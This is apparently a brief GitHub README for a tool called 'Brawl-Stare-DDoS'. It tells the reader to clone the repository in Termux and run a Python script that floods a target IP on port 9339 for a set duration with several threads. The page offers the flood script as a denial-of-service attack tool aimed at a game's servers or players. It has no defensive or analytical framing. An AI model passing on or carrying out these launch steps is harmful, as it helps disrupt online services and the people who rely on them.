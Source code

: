 # Brawl-Stare-DDoS
#Run this command in Termux

git clone https://github.com/turkhack3131/Brawl-Stare-DDoS.git

cd Brawl-Stare-DDoS

ls

python ddos.py --ip <target_ip> --port 9339 --duration 15 --threads 4
